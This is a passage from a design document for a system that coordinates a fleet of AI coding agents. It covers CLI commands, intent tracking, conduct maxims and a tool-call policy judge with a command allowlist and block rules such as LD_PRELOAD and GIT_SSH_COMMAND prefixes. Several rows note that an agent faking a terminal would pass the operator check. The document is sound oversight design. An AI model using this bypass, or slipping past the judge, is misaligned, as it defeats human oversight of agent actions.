| "Webhook forwarding is only designed for use during testing and development. It is not supported for use in production environments." | Acceptable for one person's local fleet. If GitHub withdraws it, fall back to the catch-up read on a long interval |
| "Only one person can use webhook forwarding at a time for each repository and organization." A second forwarder gets `Hook already exists` | The daemon reports the conflict in `status` and a toast, and falls back to catch-up reads for that repo |
| Creating the hook requires admin on the repo; `--org` needs the `admin:org_hook` scope | `fleet-doctor` checks for admin before a repo is watched. From PR 15, a repo whose forwarder fails for this reason (or because the repo does not exist yet) is read on a poll instead, shown in `status`, with one toast |
| `--secret` is passed on the command line, so other local users can see it in `ps` | A new secret for every forwarder start, never stored. Acceptable on a single-user machine |

| Spike | Passes when |
|---|---|
| SG1 | On a scratch repo: the forwarder creates and activates the hook; events arrive signed; `sub_issues` is accepted; a second forwarder gets `Hook already exists`; after the forwarder is killed, the hook is cleaned up or left inactive, and that is recorded; events sent while it is down are absent, and the catch-up read recovers them |

#### Agents

Agents talk to the switchboard only through its CLI, from their own shell. The
CLI identifies the caller from its herdr pane (`HERDR_PANE_ID` → session →
fleet metadata), so `--from` is never typed.

| Command | Who | Effect |
|---|---|---|
| `fleet-switchboard send [--interrupt] <name> --issue <n> <text>` | Any agent; `--interrupt` only a boss to its own worker | Delivers to another agent by the delivery rule, without batching (a boss's send to a working agent is steered into its turn). The role name `chief-of-staff` is accepted as the recipient and reaches the one agent with that role (as in a worker's `reports_to`; ambiguous or absent, it is taken literally). The whole command is bounded by `send_timeout_seconds` (default 60; it caps the SUM of the individual v2 and herdr calls, each still bounded by `call_timeout_seconds`, default 20): past it the command exits 1 saying the delivery did not finish, that it may still complete or have been cut off part way (the state is unknown), and to check `pending <name>` and the recipient before sending again. `--interrupt` aborts the recipient's running turn first (stop and hold orders). `--issue` is required from PR 6. Everywhere an issue is named (`send`, `report`, `remind`, `intent`, `handoff`, `comment`, `launch`), `owner/repo#N` is accepted beside a bare number (PR 15) |
| `fleet-switchboard report <state> [--issue <n>] "<one line>"` | Any agent with a `reports_to` (PR 13) | Tells the agent it reports to what happened. `done`, `failed`, `blocked` and `question` are delivered at once, by `send`'s own path (a wake, or a note when you are engaged with the boss). `working`, `paused` and `withdrawn` are riders: kept until a message carries them, never waking. `withdrawn` takes back your open `question` or `blocked` report on the ask (`--all`: on every ask) once it is superseded, and the Decisions list drops it at the next daemon pass; plain `working`, `paused` and `blocked` do not answer a question. The line is required and at most 300 characters (longer is refused, not cut); `--issue` defaults to the caller's own; a caller with no `reports_to` is refused |
| `fleet-switchboard remind <name> <when> --issue <n> <text>` | Any agent | A message due later; remind yourself when you wait on time ([Self-wakes](#self-wakes)) |
| `fleet-switchboard decisions [list] [--repo OWNER/REPO] [--tier cos\|human\|orchestrator\|all] [--json] [--fresh] [--watch]` | You, or any agent (PR 14; views PR 18) | The open decisions in the caller's view, one line each, the first line saying which view it is: `#2a  waiting 12m  platform  Close #2? and a second deploy run?` (a view that mixes tiers adds each row's `[tier]`). The Chief of Staff sees every repo and tier by default, an orchestrator its own repo, anyone else the human tier; the flags override. Read-only. By default it reads `decisions.json`; `--fresh` derives the list now, in this process, and writes nothing, and prints under each open report the newest send from its boss to its worker that the check considered and why it did not answer (`considered` in `--json`), or that there was none; `--json` prints the list with `stale` and `view`; `--watch` redraws when the list changes, for a terminal with no TUI plugin (a herdr side pane). An empty human view prints `No decisions are waiting on you.`; a file that is missing, unreadable or older than 180 s prints that the daemon is not updating the list (exit 1) instead of showing it as current |
| `fleet-switchboard decisions escalate <id> [--reason "..."]` | Chief of Staff, or you in a plain shell (PR 18) | Moves a decision to you: your label on and the Chief of Staff's off, on the issue (with the repo's own account), or at once for a prompt or question. Not judged. A report with no issue is refused: put it in chat |
| `fleet-switchboard decisions resolve <id> [--note "..."]` | Chief of Staff, or you in a plain shell (PR 18) | Takes both awaiting labels off the issue. Judged against the Chief of Staff's standing orders |
| `fleet-switchboard decisions answer <id> allow\|deny` / `answer <id> "<text>"` | Chief of Staff, or you in a plain shell (PR 18) | Replies to an agent's pending permission request or question through v2. Judged against the Chief of Staff's standing orders |
| `fleet-switchboard decisions answer <batch id> --as-recommended` / `--row N=<choice> ...` `[--note "..."]` | Chief of Staff, or you in a plain shell | Answers a batch (below): the raising orchestrator is sent a note first (if it cannot be delivered, nothing else happens and the batch stays); then one comment on the batch issue records every row's outcome and both awaiting labels come off, so the batch and all its rows leave the list together. Rows not named by `--row` keep their recommendation. Judged like any `answer` |
| `fleet-switchboard decisions batch --title "<title>" --row "<repo#N> \| <finding> \| <recommendation>" ... [--file F]` | An orchestrator | Raises related findings as ONE decision: one issue in the caller's own repo with the awaiting-cos label and one Markdown section per row (the full finding and recommendation; row text is backslash-escaped so no mention, link or HTML in it is live, and it is read back exactly). Prints the issue's decision id. Rows come from `--row`, `--file` (`-` is stdin), or piped stdin |
| `fleet-switchboard decisions supersede <id> [<id> ...] --by <repo#N \| URL> [--note "..."]` | Chief of Staff, or you in a plain shell | Several open decisions made moot by one issue: an issue decision gets a comment `Superseded by <ref>` and both labels off; a report gets your `send` to its worker naming the issue (which clears it) and its issue's labels off; a permission request or question is refused (use `answer`). One result line per id, `done` or `refused: <why>`; it carries on past a failure and exits non-zero if any failed. Judged like `resolve` |
| `fleet-switchboard labels ensure [--repo OWNER/REPO]` | Anyone (PR 18) | Creates `<user>:orchestrator`, `<user>:awaiting-cos` and `<user>:awaiting-user` where missing (every watched repo by default), each with the repo's own account; idempotent |
| `fleet-switchboard orders --cos` | Anyone (PR 18) | Prints the Chief of Staff's own standing orders file and its path. Read-only: you edit the file in an editor |
| `fleet-switchboard intent <issue>` | Any agent (PR 6) | Prints the ask's Intent and Done-when, and the work item's Intent if the issue is one |
| `fleet-switchboard intents` | Any agent (PR 6) | The caller's open asks, one line each with its Done-when |
| `fleet-switchboard handoff --issue <n> --brief-file <f>` | Chief of Staff (PR 8) | Fills in the Goal from the ask, checks the brief, posts it on the ask, and launches a background subagent with it |
| `fleet-switchboard launch <name> --agent <a> --dir <d> [--repo owner/repo] [--terminal] [--new-workspace <label>]` | Chief of Staff, an orchestrator (PR 3; PR 15; #433) | Starts a fleet agent without typing: HEADLESS (no terminal) by default, or in a new tab with `--terminal` (see "launch --headless" below). `--repo` sets its `metadata.fleet.repo` and gives it its repo's `gh` account as `GH_TOKEN`; `--new-workspace` first creates a herdr workspace (never focused) in `--dir`, refusing a `--charter` whose `workspace:` line differs from the label. A NEW launch (not a resume or `--cloud`) first runs the lanes' memory test: `memory_pressure` free percentage at least 40 and the `vm_stat` Swapouts counter unchanged between two reads 30 s apart (a fresh cached reading skips the wait), and refuses with exit status 5 and the numbers otherwise. `--memory-ok <reason>` skips it with an audit line; a missing or unreadable probe passes open with one line and an audit record |
| `fleet-switchboard orders list --charter <n or owner/repo#n> [--json]` | Anyone (PR 17) | The charter's standing orders, numbered: the `## Standing orders` bullets, then the legacy `Standing authority:` line if there is one |
| `fleet-switchboard orders add --charter <n or owner/repo#n> "<text>" [--by <name>]` | Chief of Staff only (PR 17) | Records one order the owner gave: 1 to 300 characters on one line, any number per charter, `--by` defaults to the operating-system user. Edits only the `## Standing orders` section of the issue body, then reads it back. Anyone else is refused, and the refusal is audited |
| `fleet-switchboard move <ask> --to <charter>` (N or owner/repo#N, both in one repo) | Chief of Staff or the operator (a plain shell); anyone else is refused and the refusal audited (#347). The operator is a shell the person check (`owner_terminal_problem`, as for `waive`) establishes as the owner's own terminal; one that cannot be established is refused. A mistake guard, not a boundary: an agent that unsets its own session and pane variables and fakes a terminal looks like a person, as for the other person-only commands | Moves an open ask to another charter with a handover. Refused before any write (exit 2): a target that is not an open charter issue (the `<user>:orchestrator` label and the yaml block; a closed charter or a pull request is refused), an ask that is a pull request, a charter, a work item or closed, the ask as its own target, a repository that is not watched or is excluded, a different repository for the target, and any read that fails. An ask has one parent, so the move is ONE write, `POST .../issues/<charter>/sub_issues` with `replace_parent`, then a read of the parent back: a refused write leaves the ask under its old charter and says so. It writes the parent link only (never the body, labels or comments) and re-bosses no worker (they finish under their old boss). Then: the old orchestrator's reminders on the ask are carried to the new one (cancelled when none runs there), the new orchestrator gets one handover note (state, pull requests and heads, branches, workers, waits, reminders), the old one a notice naming the workers still finishing, and the old charter's remaining open asks are listed. A step that fails after the move is named and exits 1. The daemon's cached parent follows the sub-issue webhook. Code: `bin/lanes.py` |
| `fleet-switchboard reassign <worker> --to <orchestrator> --consent-from <current boss>` and `reassign <worker> --undo` | Chief of Staff or the operator, as `move` (#347): a mistake guard, not a boundary (an agent that unsets its own session and pane variables and fakes a terminal looks like the operator); anyone else, a worker included, is refused and the refusal audited. The "consent" is a guardrail too: the caller names the worker's current boss and the command checks that it is that boss, but no act by that boss is verified | Hands a RUNNING worker to another orchestrator. The v2 service cannot update a session's metadata, so a reassign writes a boss override (`boss-overrides.json` in the state directory: mode 0600, atomic, under a lock, at most 100 entries and 64 KB) that discovery applies where it reads the worker's fleet metadata, so `report`, the wake grouping and every boss lookup follow it. It fails closed, writing nothing: no consent, consent from anyone but the worker's CURRENT boss, a boss or target that is not a LIVE orchestrator (in the current discovery, an orchestrator, not retired, reachable, in a watched and not excluded repository; the message names which of the two failed), a target that is already its boss, a worker that is an orchestrator or the Chief of Staff, or a damaged record. An override is bound to the worker's session (a worker launched again under the name is not affected) and is dropped at the next write when it is 30 days old or its worker is retired (an expired override never applies, even before it is dropped). The consent, the current boss and the override are checked again under the lock, next to the write: a boss that changed in between refuses the command. The reattach authorisation of a dead worker follows the override too. `--undo` removes it (the launch-time boss applies again; no consent needed). The overdue-checkpoint reminder `launch` armed for the worker (it wakes the boss) is pointed at the new boss, and `--undo` points it back, so only the current boss is woken. Both orchestrators and the worker are told. Every attempt is audited. Code: `bin/reassign.py` |
| `fleet-switchboard orders remove --charter <n or owner/repo#n> <number>` | Chief of Staff only (PR 17) | Removes the order with that number in `orders list`; the last one takes the section with it. The legacy `Standing authority:` line is numbered but lies outside the section, so it is refused (edit it on GitHub) |
| `fleet-switchboard orders copy --source <charter> --charter <charter>` | Chief of Staff only (#347); anyone else is refused, audited | Copies every order bullet of the source charter's `## Standing orders` section to the target, word for word with its original `(ordered by ..., date)` (nothing re-dated), one order at a time through the same writer, with the same read-back. Orders the target already holds are skipped, so a second run copies only what is missing. It ALWAYS prints a result: one line per order, one line per failure and one summary line; a failed order is named, the rest are still copied, and any failure exits 1. The 20-order limit applies (the overflow is reported as failures). The legacy `Standing authority:` line is not a bullet and is not copied (the output says so). Each copied order gets the owner's heads-up as an added one does, and one comment on the target charter. The source is never changed. Code: `bin/orders_copy.py` |
| `fleet-switchboard pending <name>` | Anyone | What is pending for an agent, and why anything is held |

Each agent definition gains one paragraph: what a `[switchboard]` message is,
that agents message each other with `send` and never by typing into a pane,
and (PR 6) that reports are checked against the issue's Intent and Done-when.
Agents the switchboard manages do not use `heartbeat-ack`.

#### You

| Surface | Shows |
|---|---|
| herdr sidebar | Status (from herdr's integration) and an unread count per pane |
| herdr toast | An item held longer than 15 minutes and why; a blocked worker; an Intent change; a switchboard fault |
| `fleet-switchboard status` | Every fleet agent: session, pane, status, pending and held items with reasons; GitHub watches |
| `fleet-switchboard audit` | The decision history for one agent or one issue |
| `fleet-switchboard intents` | Every open ask, one line each with its Done-when (PR 6) |

### Intent lines (PR 6)

The usual pattern for agentic coding is one session per intent. Here the Chief
of Staff and each orchestrator are single long-lived sessions whose job is to
carry many intents at once: every ask they are tracking is a sub-intent of that
job. Every incoming message is a context switch between those asks, and when a
message does not say which ask it belongs to, the asks bleed into each other.
The drift in problem 1 is the visible result: a report arrives, and the session
treats it as being about whatever it was last thinking of, in the reporter's
framing.

So every message says which ask it belongs to, and carries that ask's intent
and success criteria with it, in both directions.

**Three levels.**



- **Ask.** Each request the Chief of Staff hands to an orchestrator becomes an
  issue under that orchestrator's charter, opening with one Intent line and one
  Done-when line. This is the unit both the Chief of Staff and the orchestrator
  are accountable for.
- **Work item.** When an orchestrator splits an ask across workers, each
  assignment is a sub-issue of the ask with its own one-line Intent. For a
  single worker the ask itself can be the work item.
- **Charter.** The orchestrator's standing job. It is the same for every
  message, so it is never repeated.

This adds the ask level to the fleet-charter skill, which today puts worker
assignments directly under the charter.

```markdown
## Intent
Fix the project agents that show "Agent unavailable" in production.
Done when: both project agents answer a chat message in production.
```

**Who writes and changes it.** The Chief of Staff writes an ask's lines at
hand-off, in your terms: your ask, never widened into a general goal or a
coverage list, because Done-when is what reports are held to. An orchestrator
writes a work item's line when it creates one. After
that, an Intent or Done-when changes only by you, or by the Chief of Staff with
your yes. Orchestrators and workers propose a change with `send`; they never
edit it.

GitHub is the only copy. The switchboard reads the section from the issue body
and caches it in memory by ETag; `issues` webhooks invalidate the cache. It
never writes it.

**What the switchboard does with it.**

- **Every message names one issue.** A message covering several asks has one
  section per ask, never interleaved.
- **Each section is headed by its ask.** The ask's Intent and Done-when, then
  the work item's Intent if the message is about a work item under it: at most
  three lines. This covers GitHub events, a worker finishing, and every `send`,
  in both directions, so a report coming up to the Chief of Staff carries the
  same anchor its hand-off went down with.
- **Open asks at a glance.** `fleet-switchboard intents` lists the caller's
  open asks, one line each with its Done-when: every ask for the Chief of
  Staff, the asks under its charter for an orchestrator. It is derived from
  GitHub on every call.
- **Missing intent is visible.** A message about an issue without the section
  says "no intent recorded," and `status` lists those issues.
- **Changes are surfaced, never silent.** An `issues.edited` webhook that
  changes the Intent section produces an item for the Chief of Staff showing
  old → new, and a toast to you.

**The rules, in the agent definitions.** The Chief of Staff checks every
orchestrator report against its ask's Done-when before acting on it or
summarising it to you, and says so when they diverge.



### Conduct: maxims and when to reach for you (PR 6)

Behaviour is set by a few short maxims, not by long rules. A reasoning agent
gets more from one well-chosen phrase than from a paragraph of conditions, and
a short list stays read.

**Shared by every role** (the coder keeps `Say it failed` as R-CODE-1 of `CODING_STANDARDS.md` and a pointer instead of the text: see `review measure`).

- **Festina lente.** Make haste slowly: the careful step is the fast one.
- **Chesterton's fence.** Know why something is there before removing it.
- **Cut the root, not the branch.** Fix the cause, not the symptom. The same
  theme twice means the root is somewhere else.
- **Outcomes, not mechanics.** Report results and decisions, not internals.
- **Say it failed.** A failure is reported plainly, with its evidence.
- **A diagnosis is not a mandate.** Findings are evidence, not permission to
  change things.
- **Don't widen the ask.** Words like "security" or "critical" are evidence
  about the work, not more scope.
- **Permission doesn't travel.** An instruction covers exactly what it names,
  never the next thing like it.
- **An empty queue is not a mandate.** Idle is healthy; don't invent work.

**Chief of Staff and orchestrators.**

- **Trust, but verify.** A report is checked against its ask's Done-when and
  its evidence before it is acted on or passed up.

**Chief of Staff only.**

- **The last message stands alone.** You may read only that one.
- **No change, no message.**
- **Evidence, consequence, options, recommendation.** The shape of every
  escalation.

**When to reach for you.** Chief of Staff and orchestrators decide toward the
ask's Intent, and reach for you only when:

- it grows the contract;
- it can't be undone;
- it speaks for you: a merge, a deploy, a publish, a spend;
- the key isn't yours: a credential, a login, an account;
- it's ready for your eyes: a review, findings;
- they are stuck after trying.

Orchestrators reach you through the Chief of Staff, or the `awaiting-user`
label when it is about their charter.

These lines replace prose in the role definitions rather than adding to it:
each role file opens with a `## Maxims` block of at most a dozen lines. The
same reach-for-you rubric is also what the tool-call policy judge checks
([PR 9](#tool-call-policy-pr-9)): the agent holds it as a maxim, and the judge
backs it up at the moment of action.

**Adapted from [Firstmate](https://github.com/kunchenguid/firstmate)**, a
supervisor for agent fleets. Firstmate converged on two ideas this design
already uses: a notification is a reason to look, not the truth ("events wake;
state decides"), and a restart must be a non-event because durable state, not
conversation memory, is authoritative. The maxims above distil its escalation
etiquette and its rules for deciding versus asking.

Not taken: fixed restrictions such as read-only roles, because the Chief of
Staff and orchestrators need `gh` and other commands whose effects can't be
judged from their names (the policy judge does that instead); one human contact
only (you can talk to orchestrators directly); the long term-translation table;
and a 400-line always-loaded contract.

### Foreground and background (PR 8)

Notes keep machine turns out of your conversation, and intent lines let the
Chief of Staff answer from a message instead of investigating. That leaves the
rest of problem 2: you think of things faster than the Chief of Staff carries
them out.

**What it must do.** The Chief of Staff works serially by default. Each message
from you is classified against the asks already in flight, and what happens
depends on the answer:

| Your message is about | What happens |
|---|---|
| The work the Chief of Staff is doing now | Nothing extra; it reaches the Chief of Staff as usual |
| An ask that already has an owner: a background subagent or an orchestrator | The message is decorated with that ask and its owner. The Chief of Staff sends the owner anything relevant with `send`, then carries on with what it was doing |
| Something new, while the Chief of Staff is busy | The message is decorated "hand off first". The Chief of Staff hands its current work to a background subagent, then turns to you |
| Something new, while the Chief of Staff is idle | Nothing extra; it becomes the foreground work |

This applies to the Chief of Staff only; orchestrators are driven by the fleet,
not by you.



#### Classify: a decision model

One call to Jev per message from you, made only when there is something to
choose between. Jev (`typesafe/jev-1.13` on OpenRouter's System One endpoint,
`POST /api/v1/systemone`) answers typed questions with probabilities instead
of text. Here it gets one `choice` question:

- **State:** your new message and your previous one; the current ask's Intent
  and Done-when; one line per open ask, with its Intent and owner, from
  `fleet-switchboard intents`.
- **Options:** `current`, one option per open ask, and `new`.
- **Answer:** the chosen option and the probability of each.

It is cheap and fast: about $0.00003 per call where it has been used before,
because only input tokens are billed. Its latency here is measured by SF2. When
the top probability is below a threshold, or Jev is unreachable, the answer is
`current`: the safe default is to change nothing. Every question and answer is
written to the audit log. The OpenRouter key is read by the switchboard only
and never enters an agent's environment.

The classifier runs in shadow mode first (PR 7): logged, never acted on, until
its answers match labelled cases from real Chief of Staff transcripts (SF2).

#### Hand off: a brief, not a fork

The session is not forked. The Chief of Staff's history is long and full of
other asks, and a copy would carry all of that into the subagent. Instead the
Chief of Staff writes a short handoff brief, and a fresh background subagent
continues from it:

```markdown
## Handoff: ask 615
Goal: <the ask's Intent and Done-when, filled in by the switchboard>
Done so far: what has been established or changed, with links
Next steps: what to do next, in order
Watch out for: constraints, open questions, anything already ruled out
```

The Chief of Staff runs `fleet-switchboard handoff --issue 615 --brief-file -`,
which:

1. fills in Goal from the ask on GitHub, so it is never retyped;
2. refuses a brief without Done so far and Next steps;
3. posts the brief as a comment on the ask, so the GitHub record survives;
4. launches the background subagent: a fleet agent with role `cos-subagent`,
   `reports_to` the Chief of Staff, and the ask as its issue, in its own herdr
   tab opened without focus, briefed with the brief;
5. returns straight away, so the Chief of Staff turns to you in the same turn.

The subagent reports with `send cos --issue 615`. Its finishing is a
worker-done fact (PR 4), delivered with the ask's Intent lines, as a note while
you are talking to the Chief of Staff. v2's own background subagents (child
sessions started with the `subagent` tool) are the alternative; SF4 checks
whether herdr and the switchboard can tell a background child apart from its
parent before choosing.



#### Decorate: work that already has an owner

When your message is about an ask someone already owns, the Chief of Staff
should not start on it itself. The decoration says who owns it:

```text
[switchboard] This is about ask 615 (Intent: fix the project agents that show
"Agent unavailable"). cos-615 is working on it in the background. Send it
anything relevant with: fleet-switchboard send cos-615 --issue 615 "...".
Then continue with what you were doing.
```

The owner can be a background subagent or an orchestrator; the decoration is
the same. The Chief of Staff forwards what matters and returns to the
foreground work, so a detail you add about A reaches whoever is doing A.

#### Notice: catching your message in time

The decoration has to reach the Chief of Staff together with your message,
before it starts acting on the message. SF1 measured the race (results below),
and it settled which of two ways exists:

- **Without a plugin (built).** The switchboard sees your message in v2's
  inbox, where an unconsumed prompt shows within about 0.13 s, classifies it,
  and sends the decoration as a steered synthetic message. It can lose the
  race to the next step boundary, so the Chief of Staff may act on the bare
  message first. To win it usually, the daemon polls every `busy_poll_seconds`
  (default 1) while a Chief of Staff is working, and a decoration that arrives
  after your message was consumed is audited as `foreground.late`, so the loss
  rate can be measured.
- **With a thin prompt hook (not available).** v2 has no `prompt` hook. The
  nearest, `session.hook("context")`, injects into the model call itself and so
  cannot lose the race, but putting context into individual model calls is out
  of scope. It stays the flip if the measured loss rate matters.

#### Spikes

| Spike | Finds out |
|---|---|
| SF1 | Notice: how the v2 TUI submits a message while the session is busy; how soon the switchboard sees it compared with the next step boundary; whether a v2 `prompt` hook can wait for an external command and edit the text before admission |
| SF2 | Classify: Jev's accuracy, calibration and latency on labelled (current work, open asks, new message) cases built from real Chief of Staff transcripts; the threshold |
| SF3 | Hand off: given only the brief, the subagent continues the ask without asking for anything the brief should have said; the Chief of Staff answers you in the same turn as the decoration |
| SF4 | Subagent kind: a fleet worker in its own tab versus v2's native background subagent: status in herdr, how completion is delivered, and what you can see |

**Results (Lab, v2 2.0.22; notes kept with the spike scripts).**

- **SF1.** A prompt sent while a turn runs is steer by default: it is in the
  inbox within about 0.13 s and enters the model at the next step boundary
  (explicit `queue` waits for the whole turn). A decoration sent after that
  boundary never reaches that model call. v2 has no `prompt` hook. Not measured:
  the TUI's own submit path, which uses the same call by the inbox evidence.
- **SF2, first cut.** Real Jev, 15 hand-written synthetic cases: 15 of 15
  correct; per-call latency median 300 ms, p90 445 ms, max 981 ms. At
  `min_confidence` 0.7 it is confident on 12 of 15 and none of those is wrong,
  so the default stays 0.7. The cases are easy and by one author, so SF2
  proper still needs labelled cases from real transcripts.
- **SF3.** Not run: it needs a real model (the Copilot login, issue #16 Q1).
- **SF4.** A native subagent is a child session that inherits the parent's
  `metadata.fleet`, has no herdr pane (herdr only reports a child's blocked or
  working state onto the parent's pane) and completes as the parent's tool
  result, so there is no worker-idle fact and no wake. A fleet worker in its own
  tab has all three. The default stands.

### Tool-call policy (PR 9)

Fixed restrictions don't fit these roles. The Chief of Staff and orchestrators
need `gh`, `git` and other commands, and whether a given call is harmless
depends on its arguments and on what the agent is meant to be doing, not on the
command's name. So every consequential tool call is judged in context, at the
moment it is made.

**Where.** v2's `permission.hook("evaluate")` runs after the configured
permission rules and before the action runs or a permission prompt is shown.
It can set the outcome to allow, ask or deny, with a message that the agent
sees as the denial reason, or that you see in the prompt. A configured `deny`
is final and never reaches the hook. A hook-based harness has the same point in
its pre-tool hook.

**What is judged.** Shell commands, edits, web fetches and subagent launches.
Reads, globs, greps and skill loads pass straight through.

**The judge.** One Jev call with four yes/no questions, the reach-for-you
rubric expressed as questions:

| Question | Is the action… | High answer means |
|---|---|---|
| `outside_intent` | beyond the ask's Intent and Done-when? | hard deny. The agent cannot retry around it; the reason tells it to escalate, and widening the ask is yours |
| `hard_to_reverse` | destructive, irreversible or security-sensitive? | ask you |
| `speaks_for_you` | a merge, deploy, publish, message to others, or spend, not covered by the charter's standing authority? | ask you |
| `outside_scope` | touching a repo, environment, account or credential outside this agent's assignment? | ask you |

It is given the agent's role, the ask's Intent and Done-when, the charter's
one-line standing authority (for example "may merge green PRs"), and the tool
and its arguments. The four answers are combined in code with thresholds, and
the questions, answers and outcome go to the audit log.

**Accuracy (issue 87).** In a labelled sample of 100 recent shadow verdicts, 77 of the 80 would-deny and would-ask verdicts were
wrong (deny 0/40 right, ask 3/40 right; the 20 unchanged were all right). The wrong ones were routine work of a coder or an
orchestrator: a `git grep`, a test run, a report to its boss, a label on its own PR. Two causes, two fixes, both only ever less strict
than the model alone (the configured outcome is combined as before and a configured `ask` or `deny` is never loosened):

- **A step is not the whole ask.** `outside_intent` compares each action to the ask's Done-when, which is the product's, so a harmless
  step looked "outside". Its scores on the 40 wrong denies ran 0.50 to 0.87 and none was right. The defaults are now 0.9 for
  `outside_intent`, `speaks_for_you` and `outside_scope` (the right asks in the sample scored 0.97) and 0.5 for `hard_to_reverse`
  (a missed destructive call costs more than an extra ask). `policy.thresholds` still overrides each question.
- **Routine local steps need no model.** `policy.routine_filter` (default `true`) answers "nothing at its threshold" in code, with no
  model call, for ONE simple shell command on a strict allowlist that fails closed: a read or a local reversible step inside the worktree.
  The command word and EVERY flag must be listed for it: `git` `status`, `diff`, `log`, `show`, `rev-parse`, `grep`, `add` and `commit -m` with a
  short set of safe flags; `ls`, `cat`, `head`, `tail`, `wc`, `grep`, `pwd`, `uptime`, `sleep N`; `node --test <paths>` and `python3 bin/test-*`
  (the agent's own tests). Round 2 adds what the fleet says UP to its boss and its plain reads, still one simple command with exact flags:
  `fleet-switchboard` `report`, `notice pr`, `intent`, `orders list --charter N`, `decisions [list]` (a message may span lines inside its
  quotes, and may sit under `timeout N`), and `gh` reads only, with a fixed list of flags (no `--jq`, `-q`, `--template` or `--search`, which can read the
  environment or run a query): `pr view|list|checks|diff`, `issue view|list`, and a GET of `repos/<o>/<r>/issues|pulls|comments` paths with `--paginate` only.
  `send` and `remind` are NOT routine: they reach other agents, and free text cannot be made safe by a word list. **Never routine:** `decisions answer|resolve|escalate|supersede|batch`, `orders add|remove`,
  `launch`, `handoff`, `gh pr merge|review|close|edit|create|comment`, `gh issue close|edit|comment|create`, `gh repo`, `gh auth`, `gh api` with any
  method, field, input, header or host flag, and a `report` or `notice` that mentions deploying, merging, publishing, approving, spending, deleting or credentials
  (a best-effort stop, not a proof: the model reads it). The charter's standing orders reach the judge's `speaks_for_you` and `hard_to_reverse`
  questions as context (in full: every order of the charter, none cut off) and never
  cause a configured ask or deny to be skipped. An unknown flag, an environment prefix
  (`GIT_SSH_COMMAND=`, `LD_PRELOAD=`), a wrapper, any redirect, pipe, chain, substitution, glob or heredoc, a path that is absolute, home,
